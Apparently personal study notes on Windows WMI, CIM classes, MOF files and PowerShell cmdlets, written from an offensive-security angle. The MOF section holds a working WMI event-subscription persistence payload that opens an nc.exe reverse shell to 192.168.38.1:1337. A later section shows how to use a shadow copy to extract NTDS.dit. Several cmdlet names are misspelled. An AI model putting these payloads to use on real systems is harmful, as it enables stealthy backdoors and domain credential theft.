

WMI

- Implementation of Common Information Model (CIM) and Web-Based Enterprise Management (WBEM)
- WBEM standard encompasses the design of an
  - extensible enterprise data-collection and data-management facility
  - that has the flexibility and extensibility
  - required to manage local and remote systems that comprise arbitrary components  
- WMI consists of four main components:
  - management applications
  - WMI infrastructure
  - providers
  - managed objects (system, disks, processes, network components...)
- Allows
  -  Execute some code when the notification of an event


> - [http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html)
> - CIM - Common Information Model



> [https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf) 


- CIM classes
  - hierarchically organized with subclasses
  - grouped in namespaces (logical group of classes)
  - root\cimv2 includes most of the classes that represent computer's resources
  - Categories 
    - **Core Classes** - Applies to all areas of management (__System_Security)
    - **Common Classes** - Extension of core classes (CIM_UnitaryComputerSystem)
    - **Extended Classes** - Technology specific addition to common classes (Win32_ComputerSystem)
  - Types
    - **Abstract** - Template classes used to define other classes. 
    - **Static** - Stores data 
      - WMI configuration
      - Operational data
    - **Dynamic** - Retrieved from a provider, and represents managed resource (process, service, file, etc.)
    - **Association** - Describe relationship between classes or resources. 
- WMI Provider 

  - Bridge between managed object and WMI
  - Provide access to classes 
- Namespaces 

  - CIM classes are decided logically using namespaces 
  - For easier discovery and use
  - `root\cimv2` `root\default` `root\security` `root\subscription` 
- WMI repository - stores CIM classes' definitions

  - `%SystemRoot%\System32\wbem\Repository`

## Interesting CIM classes

  - [__EventFilter](http://msdn.microsoft.com/en-us/library/aa394639%28v=vs.85%29.aspx) [[create](http://msdn.microsoft.com/en-us/library/aa389741%28VS.85%29.aspx)]: permits to define a Windows event
  - [__EventConsumer](http://msdn.microsoft.com/en-us/library/aa384749%28VS.85%29.aspx): (abstract consumer class)
    - [ActiveScriptEventConsumer](http://msdn.microsoft.com/en-us/library/aa394635): possible to embed VBScript or JSScript in the consumer (only available in `root\subscription`)
      - Consumer runs with SYSTEM privilege on `Windows XP` and `Windows 2003 Server`
      - `Vista`, it is running under the LOCAL_SERVICE user
  - [__FilterToConsumerBinding](http://msdn.microsoft.com/en-us/library/aa394647%28v=VS.85%29.aspx): link two other instances. (permits to activate the consumer - and to execute its code - whenever the defined event occurs)

---

## [MOF (Managed Object Format)](http://msdn.microsoft.com/en-us/library/aa823192%28VS.85%29.aspx)

- Language used to describe CIM classes, namespaces and providers 
- MOF file needs to be registered into the CIM/WMI repository in order to be taken into account by WMI
  - CIM class(es) MOF describes are added into the repository
  - Stored in `%SystemRoot%\System32\wbem`
- Compilation
  - Compiled using `mofcomp.exe`
- Auto compile & register
  - Writable to `Administrator` only
  - Files added to  `%SystemRoot%\System32\wbem\mof\` get auto compiled and registered (before Vista)
  - Logs are in `%SystemRoot%\System32\wbem\mof\Logs\mofcomp.log`

Wait for a windows event and trigger:
```
#pragma namespace ("\\\\.\\root\\subscription")

instance of __EventFilter as $FILTER
{
    Name = "CLASS_FIRST_TEST";
    EventNamespace = "root\\cimv2";
 Query = "SELECT * FROM __InstanceCreationEvent "
  "WHERE TargetInstance ISA \"Win32_NTLogEvent\" AND "
  "TargetInstance.LogFile=\"Application\"";

    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $CONSUMER
{
    Name = "CLASS_FIRST_TEST";
    ScriptingEngine = "VBScript";

    ScriptText =
      "Set objShell = CreateObject(\"WScript.Shell\")\n"
   "objShell.Run \"C:\\Windows\\system32\\cmd.exe /C C:\\nc.exe 192.168.38.1 1337 -e C:\\Windows\\system32\\cmd.exe\"\n";
};

instance of __FilterToConsumerBinding
{
    Consumer = $CONSUMER ;
    Filter = $FILTER ;
};
```
> - Ref: [http://www.hsc-news.com/archives/2011/000078.html](http://www.hsc-news.com/archives/2011/000078.html)

Self start:
```
#pragma namespace ("\\\\.\\root\\subscription")

class WoootClass
{
 [key]
 string Name;
};

instance of __EventFilter as $FILTER
{
    Name = "XPLOIT_TEST_SYSTEM";
    EventNamespace = "root\\subscription";
 Query = "SELECT * FROM __InstanceCreationEvent "
         "WHERE TargetInstance.__class = \"WoootClass\"";

    QueryLanguage = "WQL";
};

instance of ActiveScriptEventConsumer as $CONSUMER
{
    // ...     
};

instance of __FilterToConsumerBinding
{
    // ...
};

instance of WoootClass
{
 Name = "Woot";
};

```

### Usages
  - Automatically kill some processes as soon as they are launched (anti-rootkits...),
  - Automatically detect when the backdoor/rootkit has been deleted to load it again (dropper),
  - Automatically infect USB devices

## Exploring 

### Exploring Namespaces 

```
Get-WmiObject -Namespace "root" -Class "__Namespace" | select name
Get-CimInstance  -Namespace "root" -Class "__Namespace" 
```
To read nested namespaces:
```
Get-WmiNamespace 
```

### Exploring Classes 

`-Namespace root\cimv2` is the default of Powershell

```
Get-WmiObject -Class *bios* -List 
```

```
Get-CimClasses -List 
```

List only dynamic classes 

```
Get-CimClasses -QualifierName dynamic -List
```

Look at details of the class

```
Get-WmiObject -Class Win32_Bios | fl *
```

```
Get-CimInstance -ClassName Win32_Bios | fl *
```

### Using WMI Class 

```
Get-WmiObject -Class Win32_Process | Where-Object {$_.Name -eq "explorer.exe"}

Get-WmiObject -Class Win32_Process | where name -eq "explorer.exe"

Get-WmiObject -Query "Select * from Win32_Process where Name = 'explorer.exe'"
```
```
Get-CimInstance -ClassName Win32_Process -Filter "Name -eq 'explorer.exe'"

Get-CimInstance -Query "Select * from Win32_Process where Name = 'explorer.exe'"
```

Can use `Remove-WmiObject` and `Remove-CimInstance` to close processed, remove registry entries, etc. 
### Methods 

Identifying methods:

```
Get-WmiObject * -List | Where-Object {$_.Method}
(Get-WmiObject -Class Win32_Process -List).Methods 
Get-CimClass -Class Win32_Process -List | Select -ExpandProperty Methods
```

```
Get-CimClass -MethodName * 
Get-CimClass -MethodName *create*
Get-CimClass -ClassName Win32_Process | Select -ExpandProperty CimClassMethods
```

Exploring methods:

```
Get-CimClass -ClassName Win32_Process | Select -ExpandProperty CimClassMethods | where name -eq "Create" | Select -ExpandProperty Parameters
```

Invoke 

```
Invoke-WmiMethod -Class Win32_process -Name create -ArgumentList calc.exe
```

```
Invoke-CimMethod -ClassName Win32_process -MethodName Create -Arguments @{CommandLine = "calc.exe"}
```

### Update Instance 

```
Get-WritableProperties 
```
```
Get-WmiObject -Class Win32_Printer -FIlter "name = 'Microsoft XPS Document Writer'" | Set-WmiInstance -Arguments @{Comment = "Example comment"}
```

```
Get-CimInstancet -ClassName Win32_Printer -FIlter "name = 'Microsoft XPS Document Writer'" | Set-CimInstance -Property @{Comment = "Example comment"}
```

### Associations 

> [https://github.com/dfinke/images/blob/master/acn.png](https://github.com/dfinke/images/blob/master/acn.png)


```
Get-WmiObject -Class *Win32_NetworkAdapter* -List | fl *
Get-WmiObject -Class Win32_NetworkAdapter -List | fl *

Get-WmiObject -Query "Associators of {win32_NetworkAdapter.DeviceID=11}"
Get-WmiObject -Query "Associators of {win32_NetworkAdapter.DeviceID=11} Where ClassDefsOnly"

Get-CimAssociatedInstance -InputObject (Get-CimInstance -ClassName Win32_NetworkAdapter -Filter 'DeviceId = 11')
```

Only see one association class: 

```
Get-WmiObject -Query "Associators of {win32_NetworkAdapter.DeviceID=11}" -AssociationClass Win32_ProtocolBinding 
```

Get references (classes linking two other classes)

```
Get-WimObject -Query "References of {win32_NetworkAdapter.DeviceID=11} Where ClassDefsOnly"
Get-WimObject -Query "References of {win32_NetworkAdapter.DeviceID=11}" 
```


## Interesting Queries 

- List all the systems within the current environment/directory:  `SELECT ds_cn FROM ds_computer`
- Installed software: 
- File listing:
- Services:
- Logon accounts:
- Hardware information:
- Installed patches:
- Security logs:
- Command line used to start processes: 
- Path to executable for running processes: 

## Useful WMI Classes 

- Win32_OperatingSystem

- Win32_Process

- Win32_IP4RouteTable

- Win32_UserAccount

- Win32_Groups

- Win32_ShadowCopy

  - Create a shadow copy of AD's drive and extract NTDS.dit

  - ```
    (Get-WmiObject -Class Win32_ShadowCopy -list).create("C:\", "CreateAccessible")
    $link = (Get-WmiObject -Class Winn32_ShadowCopy).DeviceObject + "\"
    cmd /c mklink /d C:\shadowcopy "$link"
    ```

  - 

- AD
  
  - 

## Tools

- WMI Object Browser:
- WMIC

```
# WMIC Verbs can be explored by looking at help 

# Interactive 
wmic 
wmic:root\cli> process /?
wmic:root\cli> group where name='Administrators' assoc

# Non-interactive 
wmic process /?
```

- Powershell WMI Browser
- WMI Code Generator 
- WMIGen

## Remoting 

- WMI Cmdlets  
  - Uses DCOM 
  - Port 135 (winmgmt service)
  - Not firewall / NAT friendly 
  - Data exchanged on dynamic ports (`HKLM\Software\Microsoft\Rpc\Internet`)
- CIM Cmdlets 
  - DCOM 135
  - WinRm/WSMan
    - 5385 - HTTP
    - 5386 - HTTPS
    - Firewall and NAT friendly 

Session over WinRM/WSMan

```
$sess = New-CimSession -ComputerName <name> -Credential <cred>
Get-CimInstance -CimSession $sess -ClassName Win32_OperatingSystem
```

Session over DCOM 

```
$sessOptions = New-CimSessionOption -Protocol Dcom
$newsess = New-CimSession -ComputerName <name> -Credential <cred> -SessionOption $sessOptions
```


## Access Registry

```
Get-WimObject -Namespace root\default -Class StdRegProv -List

Get-WimObject -Namespace root\default -Class StdRegProv -List | Select-Object -ExpandProperty methods | more

$RegProv = Get-WimObject -Namespace root\default -Class StdRegProv -List 
$RegProv.Methods 
```

```
$RemoteReg = Get-WmiObject -List "StdRegProv" -ComputerName <name> -Credential <cred>
$RemoteReg | Select-Object -ExpandProperty methods | more
$RemoteReg.getStringValue(<id>, <path>, <propertyName>)
```

```
WmiInvokeMethod -Namespace root\default -Class StdRegProv -Name GetStringValue @(<id>,<path>,<property>)
```

```
Posh_SecMod \ Registry.ps1 
```


## References

- [Playing with MOF files on Windows, for fun & profit](http://poppopret.blogspot.com/2011/09/playing-with-mof-files-on-windows-for.html)
- [Exposing System Secrets with VBA and WMI API](https://sites.google.com/site/beyondexcel/project-updates/exposingsystemsecretswithvbaandwmiapi)
- [How to use WbemExec for a write privilege attack on Windows](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-WbemExec-for-a-write-privilege-attack-on-Windows)
